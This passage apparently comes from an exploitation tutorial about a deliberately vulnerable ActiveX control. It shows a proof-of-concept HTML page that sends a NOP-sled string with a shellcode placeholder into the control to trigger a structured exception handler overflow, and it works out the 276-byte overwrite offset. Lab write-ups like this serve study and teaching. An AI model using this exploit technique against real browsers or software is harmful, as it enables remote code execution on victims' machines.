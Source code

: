 - UUID of `CVulnerAX_SEHCtrl's class information` in `VulnerAX_SEH.idl`: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

#### Other steps

- Register the control: `Regsvr32 path \ control name.ocx`
- Once registered we can call our function from the web page in the following way

```html
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	test.test("testest");
</script>
```

#### Trigger vulnerability

##### Constructing POC pages

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var shellcode = "";
	var s = "\u9090";
	while (s.length < 54)
	{
		s += "\u9090";
	}
	s += "\u3001\u3008";
	s += shellcode;
	test.test(s);
</script>

</body>
</html>
```

#### Analysis

- As shown in the figure, the address `0x01DCF4FC` pointed by ecx is the starting address of the overflow string, and the closest exception function address to the top of the stack is located at `0x01DCF610`, which is calculated to fill `0x114` which is 276 bytes to cover the exception handling function address, and the 277th-280th bytes can be placed in the springboard
